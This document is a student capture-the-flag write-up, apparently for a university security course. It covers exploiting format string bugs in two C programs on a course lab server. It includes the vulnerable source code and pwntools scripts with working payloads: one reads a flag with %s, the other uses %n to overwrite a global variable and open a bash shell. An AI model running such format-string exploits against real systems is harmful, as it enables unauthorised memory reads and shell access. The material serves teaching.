





# **CTF Week #7**

**Objective:** Exploit format string vulnerabilities to read and write arbitrary memory.

**Targeted addresses**: http://ctf-fsi.fe.up.pt in port 4004 and port 4005 (`"nc ctf-fsi.fe.up.pt 4004"` and `"nc ctf-fsi.fe.up.pt 4005"`)


## Challenge 1

In this first challenge, using a ZIP file provided by the CTF platform, we need to read the flag.txt file where the flag for this challenge is located.
The service was hosted on port `4004`.

We started by running the command `checksec program`.



Analyzing this output we can conclude that the file architecture is Arch x86, that there's a canary protecting the return address (`Canary found`), the stack doesn't have execution permission (`NX enabled`), and binary positions aren't randomized (`PIE`). With all these observations in mind, we can conclude that a string format attack is viable and can be used successfully.

After that we looked over at the source code of the program.

**Program main.c**

``` c
#include <stdio.h>
#include <stdlib.h>

#define FLAG_BUFFER_SIZE 40

char flag[FLAG_BUFFER_SIZE];

void load_flag(){
    FILE *fd = fopen("flag.txt","r");

    if(fd != NULL) {
        fgets(flag, FLAG_BUFFER_SIZE, fd);
    }
}

int main() {

    load_flag();
   
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);

    if(0) {
        printf("I like what you got!\n%s\n", flag);
    } else {
        printf("\nDisqualified!\n");
    }
    fflush(stdout);
    
    
    return 0;
}
```

Looking at the source code (main.c) we are asked 3 questions:

1. Which line of code is the vulnerability in?
* Linha 27: `printf(buffer);`

2. What does the vulnerability allow you to do?
* It allows us to crash the program, read from memory, change values and inject malicious code.

3. What is the functionality that allows you to obtain the flag?
* Format String.

After discovering where the vulnerability lies and what it allows us to do, and how we can use it to obtain the flag, the last thing needed is to find out in what specific memory address the `flag` array is located in. For that, we use `gdb`, that allows us to attach to the program's process and observe the stack and memory address of variables.



We use the command `p &flag` to retrive the memory address of the `flag` array. 

With all this information gathered, the final step was to use the python script, construct the string to send to the program and make it output the contents of the flag. The string was built with the follow logic: the first 4 bytes correspond to the memory address of the `flag` array in reverse, followed by the placeholder `%s` so we can print the contents.

**Program exploit_example.py**

``` python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08_.|%s|")
p.interactive()
```


After executing the script we found the flag.

## Challenge 2

In this second challenge, using a ZIP file provided by the CTF platform, we need to read the flag.txt file where the flag for this challenge is located.
The service was hosted on port `4005`.

Like in the first challenge, first order of action was to check what sort of protections the program had been compiled with by using the `checksec program` command. The output was the same as in the first program.

Next step was to look in the source code, and there we noticed the differences. The code looked very similar to the first program but with a few differences:

**Program main.c**

``` c
#include <stdio.h>
#include <stdlib.h>

int key = 0;

int main() {
   
    char buffer[32];

    printf("There is nothing to see here...");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this:");
    printf(buffer);
    fflush(stdout);

    if(key == 0xbeef) {
        printf("Backdoor activated\n");
        fflush(stdout);
        system("/bin/bash");    
    } else {
    	printf("\n\n\nWrong key: %d\n", key);
	    fflush(stdout);
    }
        
    return 0;
}
```

Looking at the source code (main.c) we are asked 3 questions:

1. Which line of code is the vulnerability in? And what does the vulnerability allow you to do?
* Linha 14: `printf(buffer);`. The same as the first challenge, it allows us to crash the program, read from memory, change values and inject malicious code.

2. Is the flag loaded into memory? Or is there some functionality that we can use to access it?
* In this program, the flag is not loaded into memory. Instead, a bash shell is opened if the condition `key == 0xbeef` is verified. Since `key` is a global variable, we can find out its memory address, and through the exploit access it and change its value to pass the condition. When such happens, and the bash shell opens, we can then call a bash command to read and output the contents of the flag file.

3. What do you have to do to unlock this functionality?
* Since the `Format String` vulnerability allows you to change the value of variables, you can change the value of key to be equal to `0xbeef`.

In the same track as the first challenge, in order to find out the memory address of `key`, we made use of the command `gdb`.



Finally, it was time to adapt the python script from the previous challenge for this challenge and run it. 

We want key to have the value 0xbeef, which in decimal corresponds to 48879.To solve this challenge, we added 8 bytes before the key address, so that when the %x instruction is read, the stack pointer will point to the address of the variable we want to change. This left us with the following string, which allowed us to obtain the flag after running the python helper script: \x24\xb3\x04\x08\x24\xb3\x04\x08%48871x%n.

**Program exploit_example.py**

``` python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"here...")
p.sendline(b"\x24\xb3\x04\x08\x24\xb3\x04\x08%48871x%n")
p.interactive()
```


After executing the script we found the flag.